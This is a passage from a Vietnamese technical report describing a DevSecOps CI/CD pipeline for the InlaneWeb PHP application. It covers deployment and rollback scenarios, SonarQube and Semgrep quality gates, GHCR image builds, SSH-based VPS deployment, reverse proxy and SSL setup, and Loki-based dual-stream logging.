Dựa trên tài liệu vận hành chuẩn [`docs/04-Hướng dẫn cấu hình và triển khai production.md`](file:///d:/PTIT-DevOps-SonarQube/docs/04-H%C6%B0%E1%BB%9Bng%20d%E1%BA%ABn%20c%E1%BA%A5u%20h%C3%ACnh%20v%C3%A0%20tri%E1%BB%83n%20khai%20production.md), bài toán triển khai được mô hình hóa qua **5 kịch bản thực tiễn cốt lõi**:

#### 1.4.1. Kịch bản 1: Khởi động hệ thống lần đầu (Cold-Start)
* **Bối cảnh bài toán:** Đặt trong tình huống đưa hệ thống lên một máy chủ Linux VPS hoàn toàn mới, chưa có dữ liệu và chưa có bất kỳ container Docker nào hoạt động trước đó.
* **Quy trình chuẩn hóa 4 bước:**
  1. *Thiết lập môi trường nền tảng:* Cài đặt Docker Engine 24+, Docker Compose V2, cấu hình tường lửa UFW (chỉ mở cổng `22` SSH, cổng dịch vụ web và phân quyền người dùng không dùng `root`).
  2. *Thiết lập mạng nội bộ độc lập:* Khởi tạo mạng bridge `inlaneweb_net` phục vụ việc giao tiếp nội bộ giữa các container mà không cần công khai cổng cơ sở dữ liệu ra ngoài Internet.
  3. *Ủy quyền mật mã tự động:* Sinh cặp khóa bất đối xứng Ed25519 (`id_ed25519_inlaneweb`), nạp khóa công khai vào `~/.ssh/authorized_keys` của VPS và lưu khóa riêng vào GitHub Secrets (`PROD_SSH_KEY`).
  4. *Lựa chọn cấu hình nạp ban đầu:*
     * **Phương án 1A — Triển khai tinh gọn (Web-Only Bootstrap):** Dành cho môi trường giới hạn tài nguyên RAM từ 1GB đến 2GB. Kỹ sư chỉ nạp duy nhất tệp [`docker-compose.prod.yml`](file:///d:/PTIT-DevOps-SonarQube/InlaneWeb/docker-compose.prod.yml), thực hiện kéo 2 hình ảnh `inlaneweb` và `inlaneweb-db` từ GHCR và kích hoạt. Phương án này tối ưu hóa 100% tài nguyên CPU và RAM cho ứng dụng web.
     * **Phương án 1B — Triển khai toàn diện (Full-Stack Observability Bootstrap):** Nạp bổ sung tệp [`docker-compose.monitoring.yml`](file:///d:/PTIT-DevOps-SonarQube/InlaneWeb/docker-compose.monitoring.yml), khởi chạy song song toàn bộ cụm Loki 3.0, Promtail 3.0, Grafana 11.0 và tác tử giám sát Autoheal, kích hoạt đầy đủ năng lực quan sát và tự phục hồi ngay từ thời điểm khởi tạo ban đầu.

#### 1.4.2. Kịch bản 2: Tự động triển khai phiên bản mới (Release CD)
* **Bối cảnh bài toán:** Chu kỳ phát hành tính năng định kỳ từ môi trường phát triển lên Production khi hoàn thành một mốc phiên bản.
* **Chu trình vận hành 5 giai đoạn khép kín:**
  1. *Kiểm soát tại nhánh tích hợp:* Các tính năng được merge vào nhánh `dev` sau khi vượt qua Stage 1 Policy Guard và Stage 2 SonarQube Quality Gate Rating A kết hợp Semgrep SAST.
  2. *Mở Pull Request phát hành chính thức:* Trưởng nhóm tạo PR từ `dev` vào `main` với tiêu đề tuân thủ nghiêm ngặt biểu thức chính quy: `release: vX.Y.Z - <mô tả>`.
  3. *Tiền thẩm định môi trường tạm thời tại Stage 3:* GitHub Actions Runner kích hoạt bộ kiểm thử 21 test cases trong [`ci/validate_configs.py`](file:///d:/PTIT-DevOps-SonarQube/ci/validate_configs.py), dựng Ephemeral Preview Stack, xác thực endpoint `/health` trả về HTTP 200 và Loki `/ready`, sau đó đóng gói hình ảnh bất biến gán nhãn commit SHA và đẩy lên GHCR.
  4. *Kích hoạt chuyển giao liên tục tại Stage 4:* Khi PR được hợp nhất vào `main`, sự kiện push kích hoạt runner thiết lập phiên SSH Ed25519 tới máy chủ VPS.
  5. *Tái nạp không gián đoạn Zero-Downtime Rollout:* Kéo hình ảnh mới nhất từ GHCR và thực thi tái tạo container:
     ```bash
     INLANEWEB_IMAGE=ghcr.io/wtfwhoyouare/inlaneweb:<sha> \
     INLANEWEB_DB_IMAGE=ghcr.io/wtfwhoyouare/inlaneweb-db:<sha> \
     docker compose -f docker-compose.prod.yml up -d --remove-orphans
     ```
     Toàn bộ tiến trình diễn ra dưới 15 giây, dịch vụ chuyển tiếp lưu lượng liền mạch mà không làm rớt kết nối của người dùng.

#### 1.4.3. Kịch bản 3: Triển khai chọn lọc theo dịch vụ thay đổi
* **Bối cảnh bài toán:** Tối ưu hóa tài nguyên máy chủ và loại bỏ điểm mù giám sát khi các thay đổi biệt lập chỉ thuộc về hạ tầng giám sát hoặc chỉ thuộc về nghiệp vụ web và database.
* **Cơ chế phân luồng thực thi:**
  * Thông qua lệnh so sánh sai khác tệp tin `git diff --name-only HEAD~1 HEAD`, đường ống phân tích phạm vi thay đổi:
    * **Nhánh thay đổi giám sát thuần túy (`InlaneWeb/monitoring/**`):** Đường ống bỏ qua hoàn toàn Job 2 tải làm việc web, chỉ kích hoạt Job 1 thực thi cập nhật khối giám sát qua lệnh `docker compose -f docker-compose.monitoring.yml up -d`. Vùng chứa web và database hoàn toàn không bị tác động, người dùng không nhận biết được sự thay đổi.
    * **Nhánh thay đổi mã nguồn nghiệp vụ (`InlaneWeb/web/**`, `InlaneWeb/db/**`):** Đường ống bỏ qua Job 1, chỉ kích hoạt Job 2. Khối hạ tầng quan sát Loki và Promtail hoạt động liên tục 24/7, ghi nhận trọn vẹn toàn bộ các sự kiện khởi động lại của container web mà không để xảy ra bất kỳ điểm mù giám sát nào.

#### 1.4.4. Kịch bản 4: Xử lý độ trễ khởi động của cơ sở dữ liệu
* **Bối cảnh bài toán:** Trong các phiên bản phát hành lớn có nạp các script Database Migration, hoặc khi MariaDB cần thực hiện quá trình khởi tạo và phục hồi InnoDB Buffer Pool, container database sẽ cần từ 10 đến 30 giây để đạt trạng thái sẵn sàng tiếp nhận kết nối. Nếu container web khởi động đồng thời, các truy vấn đầu tiên sẽ gặp lỗi `SQLSTATE[HY000] [2002] Connection refused` khiến endpoint `/health` trả về mã lỗi HTTP 503.
* **Cơ chế xử lý lỗi chủ động:**
  * Kịch bản CI/CD không vội vã đánh giá thất bại mà kích hoạt thuật toán thăm dò thích ứng:
    $$\text{Tình trạng} = \text{Probe}(\text{URL} = \texttt{http://127.0.0.1:8080/health}, \quad \Delta t = 2\text{s}, \quad N_{max} = 30)$$
  * Runner duy trì vòng lặp kiểm tra trạng thái sức khỏe định kỳ mỗi 2 giây, cho phép dung thứ độ trễ khởi tạo tối đa lên tới 60 giây.
  * Khi cơ sở dữ liệu hoàn tất việc nạp cấu trúc và chuyển sang trạng thái healthy, endpoint `/health` phản hồi mã HTTP 200, quy trình lập tức xác nhận thành công.
  * Nếu vượt quá ngưỡng 30 chu kỳ mà hệ thống vẫn không phản hồi, cơ chế chẩn đoán sự cố tự động được kích hoạt, trích xuất 50 dòng log cuối cùng của cả hai container `ilfreight_web` và `ilfreight_db` hiển thị trực tiếp lên bảng điều khiển để phục vụ điều tra nguyên nhân gốc.

#### 1.4.5. Kịch bản 5: Khôi phục phiên bản cũ khi gặp sự cố (Rollback)
* **Bối cảnh bài toán:** Đảm bảo khả năng phục hồi của hệ thống khi phiên bản vừa phát hành phát sinh lỗi logic nghiêm trọng, rò rỉ dữ liệu hoặc suy giảm hiệu năng ngoài dự kiến trong môi trường thực tế.
* **Quy trình đảo ngược trạng thái qua 2 phương án:**
  * **Phương án 5A — Khôi phục tức thời mức hạ tầng qua SSH:** Nhờ cơ chế đóng gói ảnh bất biến có gắn thẻ băm commit SHA trên GHCR, kỹ sư vận hành có thể đảo ngược phiên bản đang chạy về phiên bản ổn định liền trước chỉ trong vòng 10 giây thông qua một câu lệnh duy nhất trên máy chủ VPS:
    ```bash
    cd /opt/inlaneweb
    INLANEWEB_IMAGE=ghcr.io/wtfwhoyouare/inlaneweb:<sha_on_dinh> \
    INLANEWEB_DB_IMAGE=ghcr.io/wtfwhoyouare/inlaneweb-db:<sha_on_dinh> \
    docker compose -f docker-compose.prod.yml up -d --remove-orphans
    ```
    Nhờ cơ chế gắn kết Docker Volume `db_data` bền vững, toàn bộ dữ liệu nghiệp vụ của cơ sở dữ liệu hoàn toàn không bị ảnh hưởng hay thất thoát trong quá trình đảo ngược.
  * **Phương án 5B — Đảo ngược phiên bản có truy vết lịch sử qua Git Revert:** Kỹ sư tạo một Revert PR đối với commit lỗi trên nhánh `main`. Ngay khi PR được duyệt, đường ống CI/CD sẽ tự động kích hoạt Stage 4, kéo đúng hình ảnh đã được kiểm định của commit trước đó trên GHCR về triển khai lại trên VPS. Cách tiếp cận này bảo đảm tính toàn vẹn tuyệt đối của lịch sử kiểm toán mã nguồn.

#### 1.4.6. Bảng so sánh 5 kịch bản triển khai

| Kịch bản Triển khai | Tác nhân Kích hoạt | Thời gian Phục hồi (RTO) | Mất mát Dữ liệu (RPO) | Mức độ Ảnh hưởng (Downtime) | Cơ chế Đảm bảo Tính Toàn vẹn |
| :--- | :--- | :---: | :---: | :---: | :--- |
| **1. Cold-Start Bootstrap** | Kỹ sư SysAdmin (Thủ công) | 3 - 5 phút | 0 giây | Môi trường mới (N/A) | Khởi tạo Volume `db_data` sạch |
| **2. Automated Release CD** | Merge PR `main` (Tự động) | 10 - 15 giây | 0 giây | **Zero-Downtime (0s)** | Pre-deploy Smoke Test & Tag GHCR |
| **3. Selective Path CD** | Commit thành phần (Tự động) | 5 - 8 giây | 0 giây | **Zero-Downtime (0s)** | Tách biệt Job Compose độc lập |
| **4. Latent DB Startup** | Pipeline Retry Loop (Tự động)| 20 - 45 giây | 0 giây | **Zero-Downtime (0s)** | Vòng lặp 30 lần thích ứng & Dump log |
| **5. Instant Rollback** | Kỹ sư On-Call / Git Revert | 10 - 20 giây | 0 giây | < 5 giây (Tái tạo Web) | Kéo Immutable Image Tag cũ trên GHCR |

---

## CHƯƠNG 2: QUẢN LÝ MÃ NGUỒN VÀ QUÉT LỖ HỔNG BẢO MẬT (STAGE 1 & 2)

### 2.1. Chặn lỗi commit từ máy lập trình viên bằng Git Hooks

Nhằm đảm bảo lịch sử mã nguồn luôn trong trạng thái rõ ràng, có khả năng truy vết và tuân thủ các quy chuẩn công nghiệp, dự án áp dụng mô hình phân cấp nhánh 3 tầng nghiêm ngặt:

$$\text{Nhánh Cá nhân / Tính năng} \quad \xrightarrow{\text{PR chuẩn}} \quad \text{Nhánh Tích hợp (dev)} \quad \xrightarrow{\text{PR Release}} \quad \text{Nhánh Sản xuất (main)}$$

1. **Chuẩn hóa thông điệp Commit:** Mọi commit bắt buộc phải có cấu trúc dạng: `<type>(<scope>): <subject>`, trong đó `<type>` thuộc tập hợp xác định: `feat`, `fix`, `docs`, `style`, `refactor`, `perf`, `test`, `build`, `ci`, `chore`.
2. **Kiểm soát chủ động tại máy trạm qua githooks:** Để giảm thiểu thời gian chờ đợi phản hồi từ CI/CD trên đám mây, dự án phân phối thư mục mẫu [`.githooks/commit-msg`](file:///d:/PTIT-DevOps-SonarQube/.githooks). Lập trình viên thiết lập môi trường cục bộ thông qua lệnh `git config core.hooksPath .githooks`. Kịch bản shell sẽ chặn đứng các thông điệp sai quy chuẩn ngay tại thời điểm lập trình viên thực hiện lệnh `git commit`.

### 2.2. Kiểm tra quy tắc nhánh và Pull Request (Stage 1: Policy Guard)

Khi mã nguồn được đẩy lên máy chủ GitHub, cơ chế bảo vệ biên trung tâm được kích hoạt thông qua công cụ chuyên dụng [`ci/policy_guard.py`](file:///d:/PTIT-DevOps-SonarQube/ci/policy_guard.py). Đây là công đoạn đầu tiên trong đường ống CI/CD, có thời gian thực thi cực ngắn từ 3 đến 5 giây nhằm áp dụng nguyên lý Fail-Fast:

* **Mô hình toán học của cơ chế kiểm tra nhánh:**
  Gọi $B_{head}$ là nhánh nguồn và $B_{base}$ là nhánh đích của một Pull Request $\mathcal{P}$. Không gian trạng thái hợp lệ $\mathcal{S}_{valid}$ được định nghĩa bởi hàm logic:
  
  $$\mathcal{F}(\mathcal{P}) = \begin{cases} 
  1 & \text{nếu } (B_{base} = \text{"dev"} \land B_{head} \notin \{\text{"main"}, \text{"dev"}\}) \lor (B_{base} = \text{"main"} \land B_{head} = \text{"dev"}) \\
  0 & \text{ngược lại (Chặn đứng và thông báo lỗi vi phạm chính sách)}
  \end{cases}$$

Kịch bản tự động phân tích tiêu đề của Pull Request:
* PR vào nhánh `dev` bắt buộc phải khớp mẫu Regex: `^\[([a-zA-Z0-9_\-\/]+)\]\s+(feat|fix|docs|style|refactor|perf|test|build|ci|chore)(\([a-zA-Z0-9_\-\/]+\))?:\s+.+$`.
* PR vào nhánh `main` bắt buộc phải khớp mẫu phát hành phiên bản chính thức: `^release:\s+v[0-9]+\.[0-9]+\.[0-9]+.*$`.

Bất kỳ vi phạm nào liên quan đến việc commit trực tiếp lên nhánh bảo vệ hoặc mở PR từ nhánh cá nhân trực tiếp vào `main` đều bị hệ thống từ chối ngay lập tức, ngăn ngừa hoàn toàn nguy cơ ô nhiễm nhánh sản xuất.

### 2.3. Quét lỗ hổng mã nguồn bằng SonarQube và Semgrep (Stage 2: SAST)

Khi Pull Request vượt qua Stage 1 và hướng tới tích hợp vào nhánh `dev`, hệ thống kích hoạt đồng thời hai động cơ phân tích an ninh tĩnh độc lập:

```text
       Mã nguồn PHP 8.2 (InlaneWeb/web/src/)
                     │
         ┌───────────┴───────────┐
         ▼                       ▼
  [ ĐỘNG CƠ 1: SONARQUBE ]   [ ĐỘNG CƠ 2: SEMGREP ]
  - Phân tích cú pháp AST   - Truy vết luồng dữ liệu ô nhiễm (Taint Analysis)
  - Đo nợ kỹ thuật (Debt)   - Bộ quy tắc OWASP Top 10 & CWE-89
  - Tiêu chuẩn PSR-12       - Tập luật địa phương (ci/semgrep-local-rules.yml)
         │                       │
         ▼                       ▼
  Quality Gate Rating A    Zero Critical/High Vulnerabilities
         │                       │
         └───────────┬───────────┘
                     ▼
          [ CỔNG DUYỆT TÍCH HỢP ]
```

#### 2.3.1. Bắt lỗi và đánh giá chất lượng mã nguồn bằng SonarQube
* **Vị trí và thời điểm kích hoạt trong đường ống CI/CD:**
  SonarQube được định vị tại **Stage 2: Dev Gate (SonarQube SAST & Code Quality)** trong tệp điều phối [`.github/workflows/devsecops-pipeline.yml`](file:///d:/PTIT-DevOps-SonarQube/.github/workflows/devsecops-pipeline.yml). Công đoạn này phụ thuộc trực tiếp vào kết quả của Stage 1 (`needs: [branch_policy_guard]`) và được tự động kích hoạt trong 2 trường hợp:
  1. Khi lập trình viên mở một Pull Request có nhánh đích là nhánh tích hợp `dev` (`github.event_name == 'pull_request' && github.base_ref == 'dev'`).
  2. Khi có sự kiện đẩy mã nguồn trực tiếp vào nhánh `dev` (`github.ref == 'refs/heads/dev'`).
* **Quy trình phân tích tự động trong Runner:**
  * Khởi tạo môi trường Ephemeral SonarQube: Đường ống khởi chạy một vùng chứa SonarQube Community 26.9 độc lập ngay trên GitHub Actions Runner qua Docker, phân bổ 4GB RAM và thiết lập thông số nhân Linux `vm.max_map_count=524288`. Kịch bản [`ci/sonarqube.py bootstrap`](file:///d:/PTIT-DevOps-SonarQube/ci/sonarqube.py) tự động khởi tạo cấu hình dự án, cấu hình token bảo mật và nạp Quality Gate tùy biến.
  * Tác tử quét SonarScanner phiên bản 8.1.0 phân tích toàn diện mã nguồn PHP 8.2: bóc tách cây cú pháp trừu tượng AST, kiểm tra tuân thủ chuẩn PSR-12, đo lường độ phức tạp nhận thức Cognitive Complexity, trùng lặp mã nguồn, và đối chiếu với ngân hàng quy tắc an ninh (Security Rules & Hotspots).
* **Cơ chế cưỡng chế Quality Gate và phương thức chặn đứng (Blocking Mechanism):**
  Hệ thống áp dụng tập luật Quality Gate nghiêm ngặt được đặc tả trong [`ci/sonarqube-quality-gate.json`](file:///d:/PTIT-DevOps-SonarQube/ci/sonarqube-quality-gate.json):
  * Đánh giá bảo mật (`security_rating`): Bắt buộc đạt Rating A (Giá trị 1). Nếu xuất hiện bất kỳ lỗ hổng bảo mật nào ở mức độ Blocker hoặc Critical, chỉ số này lập tức tụt xuống mức B, C, D hoặc E (lớn hơn 1) -> Vi phạm điều kiện chặn.
  * Đánh giá độ tin cậy (`reliability_rating`): Bắt buộc đạt Rating A (Không tồn tại lỗi logic / Bugs nghiêm trọng).
  * Đánh giá khả năng bảo trì (`sqale_rating`): Bắt buộc đạt Rating A (Nợ kỹ thuật ở mức tối thiểu).
  * Đánh giá điểm nóng an ninh (`security_hotspots_reviewed`): Bắt buộc đạt 100% (Mọi đoạn mã nhạy cảm đều phải được rà soát và chấp thuận thủ công).
  * Tỷ lệ mã trùng lặp (`duplicated_lines_density`): Không được vượt quá 10%.
* **Quy trình ngắt đường ống và bảo vệ nhánh (Branch Protection Enforcement):**
  * Sau khi hoàn tất phân tích, kịch bản `python3 ci/sonarqube.py check` đọc tệp trạng thái `reports/sonarqube/status.json`. Nếu Quality Gate trả về trạng thái `ERROR` (hoặc `FAILED`), kịch bản lập tức phát tín hiệu báo động ra `stderr` và trả về mã thoát lỗi khác 0 (`sys.exit(1)`).
  * Khi tiến trình trả về mã lỗi 1, GitHub Actions lập tức đánh dấu Job `[STAGE 2: Dev Gate] SonarQube SAST & Code Quality` ở trạng thái Thất bại (`FAILURE`).
  * **Hệ quả của việc chặn:** Toàn bộ các công đoạn tiếp theo bao gồm Stage 3 (Dựng Preview Stack và Đóng gói GHCR) và Stage 4 (Chuyển giao lên Production VPS) bị vô hiệu hóa hoàn toàn (trạng thái `CANCELLED` / `SKIPPED`). Đồng thời, cơ chế bảo vệ nhánh Branch Protection Rules trên GitHub phát hiện bài kiểm tra bắt buộc bị thất bại, lập tức vô hiệu hóa nút bấm hợp nhất Merge Pull Request, ngăn chặn tuyệt đối mã nguồn có lỗ hổng hoặc nợ kỹ thuật lọt vào hệ thống.

#### 2.3.2. Dò luồng dữ liệu độc hại bằng Semgrep
Khác với các công cụ quét dựa trên biểu thức chính quy đơn thuần vốn tạo ra tỷ lệ cảnh báo giả rất cao, Semgrep Engine sử dụng phương pháp Taint Analysis:

* **Mô hình hóa bài toán Taint Tracking:**
  Một biến dữ liệu $x$ được coi là bị ô nhiễm khi nó bắt nguồn từ một Source đầu vào không tin cậy:
  
  $$\text{Source} \in \{\texttt{\$\_GET}, \texttt{\$\_POST}, \texttt{\$\_REQUEST}, \texttt{\$\_COOKIE}, \texttt{\$\_SERVER['QUERY\_STRING']}\}$$
  
  Biến này lan truyền qua đồ thị dòng điều khiển mà không đi qua bất kỳ Sanitizer hợp lệ nào:
  
  $$\text{Sanitizer} \notin \{\texttt{mysqli\_real\_escape\_string}, \texttt{intval}, \texttt{pdo->prepare}\}$$
  
  Nếu dữ liệu bị ô nhiễm đi tới điểm tiếp nhận thực thi Sink nguy hiểm:
  
  $$\text{Sink} \in \{\texttt{mysqli\_query}, \texttt{mysqli\_real\_query}, \texttt{mysqli\_multi\_query}, \texttt{PDO::query}\}$$
  
  Semgrep sẽ lập tức xác lập một vi phạm an ninh nghiêm trọng tương ứng với mã định danh lỗ hổng CWE-89 cho SQL Injection.

* **Tập luật nhận diện tùy biến địa phương ([`ci/semgrep-local-rules.yml`](file:///d:/PTIT-DevOps-SonarQube/ci/semgrep-local-rules.yml)):** Nhóm nghiên cứu đã phát triển bộ quy tắc chuyên biệt phát hiện các hàm thực thi đa câu lệnh nguy hiểm `mysqli_multi_query` và các điểm gọi hàm đọc ghi tệp tin nhạy cảm của hệ điều hành.

#### 2.3.3. Tự động che giấu dữ liệu nhạy cảm trong báo cáo
Để tuân thủ triệt để nguyên tắc Zero-Trust trong môi trường CI/CD, kịch bản [`ci/semgrep_report.py`](file:///d:/PTIT-DevOps-SonarQube/ci/semgrep_report.py) tự động phân tích tệp kết quả JSON, thực hiện che giấu toàn bộ các chuỗi mã token, khóa định danh SSH, thông tin mật khẩu có trong log kiểm thử trước khi xuất bản thành báo cáo trực quan dưới dạng HTML và gắn trực tiếp vào bảng tóm tắt GitHub Actions Step Summary.

---

## CHƯƠNG 3: ĐÓNG GÓI VÀ TỰ ĐỘNG TRIỂN KHAI LÊN PRODUCTION (STAGE 3 & 4)

### 3.1. Chạy thử nghiệm hệ thống trên môi trường tạm thời (Stage 3)

Một trong những nguyên nhân hàng đầu khiến hệ thống Production sụp đổ sau khi triển khai là sai lệch cấu hình hạ tầng. Stage 3 thiết lập một rào chắn kiểm định kỹ thuật 3 tầng:

1. **Bộ thẩm định cấu hình tĩnh ([`ci/validate_configs.py`](file:///d:/PTIT-DevOps-SonarQube/ci/validate_configs.py)):** Thực thi kiểm tra tự động 21/21 trường hợp thử nghiệm nghiêm ngặt:
   * Thẩm định cấu hình Docker Compose theo chuẩn Compose Specification V2.
   * Thẩm định tính hợp lệ của cú pháp ánh xạ đường dẫn log trong cấu hình Promtail `promtail-config.yml`.
   * Kiểm tra tính đúng đắn của sơ đồ cấu hình lưu trữ chunks và bảng chỉ mục của Grafana Loki `loki-config.yml`.
2. **Khởi tạo môi trường Ephemeral Preview Stack:**
   Thay vì tin tưởng mù quáng vào việc build image thành công, đường ống khởi chạy một cụm dịch vụ hoàn chỉnh bao gồm cả web, database MariaDB, Loki và Promtail ngay trong máy ảo Runner của GitHub Actions.
3. **Kiểm thử nhịp tim đầu cuối E2E Smoke Test:**
   * Runner thực hiện truy vấn thăm dò tính sẵn sàng của cơ sở dữ liệu qua lệnh `mysqladmin ping`.
   * Gửi HTTP Request tới endpoint `/health`, kiểm tra tính toàn vẹn của phản hồi JSON:
     ```json
     {
       "status": "UP",
       "database": "connected",
       "timestamp": "2026-10-23T14:05:00Z"
     }
     ```
   * Kiểm tra tính sẵn sàng nạp log của Loki thông qua endpoint `http://localhost:3100/ready`.

### 3.2. Đóng gói Docker Image và lưu trữ trên GitHub (GHCR)

Sau khi môi trường tạm thời vượt qua toàn bộ các bài kiểm tra Smoke Test với mã phản hồi HTTP 200, hệ thống tiến hành đóng gói các vùng chứa thành các Docker Image bất biến:

$$\text{Hình ảnh Web:} \quad \texttt{ghcr.io/wtfwhoyouare/inlaneweb:}\{\text{commit\_sha}\} \quad \text{và} \quad \texttt{:latest}$$

$$\text{Hình ảnh Database:} \quad \texttt{ghcr.io/wtfwhoyouare/inlaneweb-db:}\{\text{commit\_sha}\} \quad \text{và} \quad \texttt{:latest}$$

Việc đẩy các hình ảnh đã qua kiểm định lên GHCR đảm bảo nguyên tắc: một hình ảnh duy nhất được kiểm thử và đem đi triển khai trên toàn bộ các môi trường, loại bỏ hoàn toàn các sai khác do môi trường biên dịch gây ra.

### 3.3. Tự động triển khai lên máy chủ Production VPS (Stage 4)

Khi Pull Request được hợp nhất thành công vào nhánh `main`, quy trình Continuous Deployment tự động được kích hoạt thông qua kết nối mạng mã hóa bất đối xứng SSH sử dụng thuật toán khóa Ed25519:



#### 3.3.1. Chỉ cập nhật container có mã nguồn thay đổi
Pipeline phân tích danh sách các tệp tin có sự thay đổi giữa commit hiện tại và commit liền trước:
* Nếu thay đổi chỉ xảy ra trong thư mục `InlaneWeb/monitoring/`, chỉ có Job 1 được kích hoạt để cập nhật hạ tầng quan sát.
* Nếu thay đổi xảy ra trong mã nguồn ứng dụng `InlaneWeb/web/` hoặc `InlaneWeb/db/`, chỉ có Job 2 được kích hoạt. Nhờ đó, máy chủ không phải lãng phí tài nguyên CPU và RAM để tái khởi động các dịch vụ không liên quan.

#### 3.3.2. Giữ an toàn dữ liệu cơ sở dữ liệu bằng Docker Volume
Trong tệp [`InlaneWeb/docker-compose.prod.yml`](file:///d:/PTIT-DevOps-SonarQube/InlaneWeb/docker-compose.prod.yml), vùng lưu trữ dữ liệu `/var/lib/mysql` của MariaDB được gắn kết cố định vào một Docker Named Volume mang tên `db_data`. Trong suốt quá trình kéo image mới và tái tạo container, Docker Engine chỉ thực hiện tiêu hủy tầng tính toán tạm thời của container, toàn bộ dữ liệu vật lý trên ổ đĩa được bảo toàn nguyên vẹn 100%, loại bỏ nguy cơ mất mát dữ liệu khách hàng.

#### 3.3.3. Kiểm tra web hoạt động ổn định trước khi hoàn tất
Trong các hệ thống phân tán, cơ sở dữ liệu thường cần từ 5 đến 20 giây để khởi động các tiến trình quản lý trang nhớ và kiểm tra bảng dữ liệu. Nếu kiểm tra trạng thái ngay lập tức, tiến trình kiểm tra sẽ báo lỗi giả. Pipeline đã cài đặt thuật toán kiểm tra nhịp tim vòng lặp:
* Thực hiện gửi tín hiệu thăm dò liên tục tới endpoint `http://127.0.0.1:8088/health` trên máy chủ VPS.
* Khoảng cách giữa các lần thăm dò là $T = 3\text{s}$, với số lần thử tối đa $N = 30$ (tổng thời gian chịu lỗi tối đa 90 giây).
* Nếu nhận được phản hồi HTTP 200, tiến trình triển khai được công nhận thành công ngay lập tức. Nếu sau 90 giây endpoint vẫn không phản hồi, quy trình tự động trích xuất toàn bộ log của container `ilfreight_web` và `ilfreight_db` để lập tức thông báo sự cố cho kỹ sư vận hành.

#### 3.3.4. Phân lập không gian Compose Projects tránh xung đột Orphan Containers
Khi đặt cả hai tệp `docker-compose.monitoring.yml` và `docker-compose.prod.yml` trong cùng thư mục `/opt/inlaneweb`, mặc định Docker Compose sẽ gán tên project theo tên thư mục (`inlaneweb`). Do đó, cờ `--remove-orphans` của khối web sẽ hiểu nhầm các container giám sát là "mồ côi" và tiêu hủy chúng. Hệ thống giải quyết triệt để vấn đề này bằng cách:
* Khối giám sát: Khai báo `name: inlaneweb-monitoring` và chạy với `-p inlaneweb-monitoring`.
* Khối web: Khai báo `name: inlaneweb-prod` và chạy với `-p inlaneweb-prod`.
* Cấu hình ràng buộc phụ thuộc tuần tự (`needs: [..., production_deploy_monitoring]`), đảm bảo cụm giám sát khởi động ổn định trước rồi mới triển khai ứng dụng nghiệp vụ.

### 3.4. Cấu hình tên miền, SSL và Reverse Proxy kép qua Nginx Proxy Manager
Tại máy chủ Production VPS, công cụ **Nginx Proxy Manager (NPM)** đóng vai trò là Reverse Proxy trung tâm, tiếp nhận lưu lượng truy cập Internet qua các cổng tiêu chuẩn `80` (HTTP) và `443` (HTTPS) và điều phối vào mạng nội bộ Docker `inlaneweb_net`:

1. **Cổng thông tin logistics (`inlaneweb.ecotools.online`):**
   * Định tuyến lưu lượng vào container `ilfreight_web` trên cổng `80`.
   * Cấu hình kết nối Docker Network: Container `proxy-manager-app-1` được kết nối trực tiếp vào mạng `inlaneweb_net` (`docker network connect inlaneweb_net proxy-manager-app-1`), cho phép Nginx phân giải hostname container nội bộ mà không cần phụ thuộc vào IP tĩnh của máy chủ.
2. **Cổng giám sát an ninh tập trung (`grafana.ecotools.online`):**
   * Định tuyến lưu lượng vào container `ilfreight_grafana` trên cổng `3000`.
   * Kích hoạt tùy chọn **Websockets Support** trong Nginx Proxy Manager để duy trì kết nối WebSocket bền vững hai chiều giữa trình duyệt quản trị viên và máy chủ Grafana, phục vụ việc đẩy dữ liệu log và biểu đồ thời gian thực (Live Stream Logs) mà không gây trễ.
3. **Mô hình bảo vệ SSL đa lớp:**
   * Sử dụng chứng chỉ số SSL do Cloudflare cấp phát phối hợp cùng chứng chỉ số Let's Encrypt / Custom SSL trên Nginx Proxy Manager.
   * Kích hoạt chế độ mã hóa **Full (Strict) SSL**, bật cờ bảo vệ **HSTS** (`max-age=63072000; includeSubDomains; preload`) và chuyển hướng bắt buộc toàn bộ lưu lượng HTTP sang HTTPS (Force SSL). Toàn bộ dữ liệu truyền nhận qua mạng Internet đều được mã hóa tuyệt đối, ngăn chặn triệt để nguy cơ tấn công trung gian Man-in-the-Middle.

---

## CHƯƠNG 4: HỆ THỐNG GIÁM SÁT VÀ TỰ ĐỘNG KHÔI PHỤC

### 4.1. Tách biệt log ứng dụng và log truy cập web

Để giải quyết bài toán mâu thuẫn giữa việc phân tích lỗi logic ứng dụng chuyên sâu và việc giám sát an ninh lưu lượng mạng diện rộng, nhóm nghiên cứu đề xuất và triển khai kiến trúc Dual-Stream Logging:

```text
                               ỨNG DỤNG INLANEWEB
                                       │
            ┌──────────────────────────┴──────────────────────────┐
            ▼                                                     ▼
   [LUỒNG 1: APPLICATION DIAGNOSTICS]               [LUỒNG 2: HTTP ATTACK TRAFFIC]
   - Thư viện: InlaneLogger                         - Định dạng: Apache CustomLog JSON
   - Cơ chế: Bắt ngoại lệ chuỗi                     - Cấu trúc: Client IP, URI, Query, Status
   - Mục đích: Phân tích cú pháp DB, Stack Trace   - Mục đích: Phát hiện tấn công SQLi, XSS
            │                                                     │
            └──────────────────────────┬──────────────────────────┘
                                       ▼
                        Đẩy ra STDOUT / STDERR Container
                                       │
                                       ▼
                Docker Daemon Engine Socket (/var/run/docker.sock)
                                       │
                                       ▼
                              Promtail 3.0 Collector
                                       │
                                       ▼
                               Grafana Loki 3.0
```

1. **Luồng 1 — Chẩn đoán lỗi nội bộ ứng dụng:**
   Được quản lý thông qua lớp nghiệp vụ độc lập [`InlaneLogger`](file:///d:/PTIT-DevOps-SonarQube/InlaneWeb/web/src/lib/logger.php). Khi hệ thống gặp các lỗi nghiêm trọng như lỗi kết nối cơ sở dữ liệu hoặc lỗi cú pháp truy vấn SQL, logger tự động trích xuất nguyên nhân gốc, chuỗi các ngoại lệ lồng nhau cùng toàn bộ vết ngăn xếp Stack Trace, phục vụ việc gỡ lỗi logic cho kỹ sư phần mềm.
2. **Luồng 2 — Chẩn đoán tấn công lưu lượng HTTP:**
   Máy chủ Apache được tái cấu hình để ghi lại toàn bộ các yêu cầu HTTP dưới dạng chuỗi JSON có cấu trúc hoàn chỉnh thay cho định dạng văn bản thô Common Log Format truyền thống:
   ```apache
   LogFormat "{\"timestamp\":\"%{%Y-%m-%dT%H:%M:%S%z}t\",\"client_ip\":\"%a\",\"method\":\"%m\",\"uri\":\"%U\",\"query\":\"%q\",\"status\":%>s,\"bytes\":%B,\"referer\":\"%{Referer}i\",\"user_agent\":\"%{User-Agent}i\"}" custom_json
   CustomLog /proc/self/fd/1 custom_json
